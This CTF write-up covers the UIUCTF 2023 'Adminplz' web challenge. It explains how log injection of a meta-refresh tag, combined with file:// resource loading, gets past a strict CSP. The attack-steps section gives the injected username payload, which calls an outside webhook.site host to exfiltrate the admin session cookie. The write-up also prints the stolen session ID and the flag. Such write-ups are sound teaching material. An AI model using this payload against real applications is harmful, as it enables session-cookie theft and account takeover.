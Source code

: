 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a Log Injection leading to exfiltration of cookies.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is logging in and submitting an url to the admin bot. If we access to the <code>/admin</code> endpoint, we'll get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, server is at 127.0.0.1 on port 8080. It logs to the server and then visit the submitted url.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resource to be loaded and any script to be executed, thus no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't login as admin as we don't know the password, but we can login as any user, our username will be set accordingly (password isn't check).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without any sanitizing process and 
a resource specified by a user controllable GET parameter (<code>view</code>) is returned to the admin (if the endpoint is accessed by the admin).
<code>accessResource()</code> method accepts file names and urls (of any protocol).<br>
There is no possibility for an XSS, nor a possibility to inject anything on any page. The only file where we can inject something, if we are logged and 
the <code>view</code> parameter contains the "flag" substring, is <code>/var/log/adminplz/latest.log</code>. This file can be rendered as HTML by the bot's browser.
Submitting an url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will induce the admin bot to view the log file as an HTML page.
But, what we can do? We can't trigger XSS nor load any external resource. We can't get the /flag.html content. Can we steal cookies even without XSS? Yes.
If we look at the code above (the admin one), we can that not only the username is injected inside the log, but the session ID too. So, if admin visits a url 
like <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session ID (authentication cookie) is written into the log. If we can exfiltrate this, 
we can authenticate us as admin to the server. In the log there is only text, but we can inject, through the username, HTML code.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to an URL that 
incorporate part of the log's content (admin's cookie included):
```html
.... <html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log content...

'></head> ....
```
This HTML could redirect the client to the specified url including all the log's content written before the single quote in the <code>exf</code> parameter. If server logs an admin event inside this content, thus before injecting the <code>'></head></code> part, we can exfiltrate admin's authentication cookie.

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it's important that the <code>view</code> parameter contains a valid path (existent file),
because otherwise an error will be triggered and the log's content resetted, deleting our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'></head></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After executing these steps, our server will receive a GET request with all the exfiltrated content inside a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


Got admin's session ID (<code>36D142A1763851F1DE47DEB881FC2A3A</code>)!
Now we have to use this cookie when accessing the <code>/admin</code> endpoint. In order to access the flag file we have to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, so: <code>https://instance_server/admin?view=file:///flag.html</code>. By Visiting this link we'll get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

